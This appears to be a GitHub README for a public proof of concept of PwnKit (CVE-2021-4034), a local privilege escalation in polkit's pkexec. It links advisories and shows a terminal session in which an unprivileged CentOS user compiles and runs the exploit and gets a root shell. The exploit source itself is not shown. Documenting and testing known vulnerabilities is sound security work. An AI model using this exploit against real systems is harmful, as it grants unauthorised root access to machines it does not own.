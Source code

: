 # CVE-2021-4034
PoC for PwnKit: Local Privilege Escalation Vulnerability in polkit’s pkexec (CVE-2021-4034)

https://github.com/arthepsy/CVE-2021-4034
https://seclists.org/oss-sec/2022/q1/80  
https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

# PoC

```
[user@centos ~]$ grep PRETTY /etc/os-release
PRETTY_NAME="CentOS Linux 7 (Core)"
[user@centos ~]$ id
uid=11000(user) gid=11000(user) groups=11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[user@centos ~]$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
[user@centos ~]$ ./cve-2021-4034-poc
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root),11000(user) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# exit
```
